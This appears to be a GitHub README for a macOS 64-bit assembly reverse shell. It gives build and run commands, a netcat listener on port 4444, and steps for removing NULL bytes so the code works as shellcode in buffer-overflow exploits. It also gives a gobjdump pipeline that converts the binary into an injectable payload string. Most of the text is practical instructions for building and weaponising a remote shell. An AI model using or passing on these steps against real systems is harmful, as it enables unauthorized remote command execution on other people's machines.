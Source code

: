 reverse_shell
=============

program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.

It is written for mac osx 64 bit

#### Usage:
  Start a listening server with the command: `nc -l 4444` in another folder for example your home directory
```
  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  run ./reverse_shell
```  
  Go back to the terminal that you started nc in and type ls, you should now see a directory listing of the directory you started
  reverse_shell in.
  
To use the code as a payload, one need to remove the NULL bytes, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
See the code for two example on how to change the mov instruction

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  
  